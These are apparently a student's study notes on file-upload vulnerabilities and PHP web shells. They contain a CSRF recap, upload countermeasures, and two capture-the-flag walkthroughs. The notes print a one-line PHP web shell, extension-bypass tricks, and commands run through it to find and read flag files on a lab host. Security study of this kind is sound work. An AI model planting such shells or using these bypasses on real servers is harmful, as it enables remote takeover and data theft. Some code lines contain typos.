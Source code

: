# Web Shell
* A shell-like interface that enables a web server to be remotely accessed, often for the purposes of cyberattacks

## Part 1. Review
1. CSRF definition?
  - exploit a website's trust in a user's browser, allowing attackers to perform unauthorized actions on behalf of the authenticated user.
  - Attack scenarios = Link, XSS, iframe
  - Countermeasure = Referal check, Add identification information

2. File Upload
* Definition - when a web server allows users to upload files to its filesystem without sufficiently validating things like their name, type, contents, or size.
* Cause - When a file is uploaded, it doesn't check or authenticate
* Location - Any upload location (Chekcing through burp suite)

3. File upload vulnerability - Attack scenarios
* Unlimited = DoS Attack, Web Shell, Malware script, Back door, Ransomware
* Execution files on server side
   * Server-side script vs client-side script (XSS)
     - Server side script = php, asp, jsp, python, nodejs
* Phishing : HTML file
* Deface Attack
  - index file (covered)
* XSS - Stored XSS
* DoS

4. Detail of execution file on server side
- Web Shell
- php web shell
```php
<?php echo system$_GET['cmd']; ?>
```
5. Keypoint of Web Shell Attack
* Possibility of uploading web server code
* Path of the uploaded file
  - Path Check
  - Checking the output of the uploaded file
  - Copy image address

## Part 2. Countermeasure for file upload
1. Restriction of upload file
- vulnerability = content-type: text/php
2. Restriction of execution
- saving router = ../filename.php   (it will execute)
3. Restriction of extension
- Change capital => pHp Php
- Alternative extension => phtml, php3, php5  //  jspx, jsw
4. Normal image
 - hex editor
```php
<?php system($_GET['cmd']);?>
```
- File Signature
5. Execution code on the server side
- extension is supposed to be a web server extension
6. Caution when finding vulnerabilities in file upload
- Why using web shell = checking the execution of the upload file

## Part 3. CTF
* CTF - Webshell 1
1. Error - php file upload on the board and find flag.txt
2. Create a new hacking php file to upload

<?php echo system($_GET['cmd']); ?>

4. Create a new post and upload the hacking php file
5. Look at the post package through the burp suite and check the possibility
6. Copy the download link address on the new post
7. Check the link operation on the search bar with any command
```php
http://ctf.segfaulthub.com:8989/webshell_1/files/seungho/webshell.php?cmd=ls
```
8. Try different commend through the burp suite package repeater
9. Try attack commend to find the flag
```
find / -name flag.txt 2>/dev/null
find%20%2F%20-name%20flag.txt%202%3E%2Fdev%2Fnull
```
10. When finding the path, read the file
```
cat /app/webshell_1/important_data/flag.txt
cat%20/app/webshell_1/important_data/flag.txt
```

* CTF - Webshell 2
1. Error - find flag.txt file in the server
2. Create a new hacking php file to upload
3. Create a new post and upload the hacking php file
4. Found an alert of the extension limitation
5. Upload any image file to get a successful upload package
6. On the package, change the file name to webshell.php and attack content to add a "webshell.php" attack file
```php
<?php echo system($_GET['cmd']); ?>
```
7. Try to replace the extension such as a capital combination (e.g. php -> pHp) to create a new post
8. Look at the post package through the burp suite and check the confirmation
9. Find a new post to get the download link address
10. Copy the download link address on the new post
12.Check the list of uploaded files
```
http://ctf.segfaulthub.com:7979/webshell_2/files/seungho/
```
13. Check the link operation on the search bar with any command
```
http://ctf.segfaulthub.com:8989/webshell_1/files/seungho/webshell.php?cmd=ls
```
14. Try different commend through the burp suite package repeater
15. Try attack command to find the flag
```
find / -name flag.txt 2>/dev/null
find%20%2F%20-name%20flag.txt%202%3E%2Fdev%2Fnull
```
15. When finding the path, read the file
```
cat /app/webshell_2/secret_file/flag.txt
cat%20app/webshell_2/secret_file/flag.txt
```
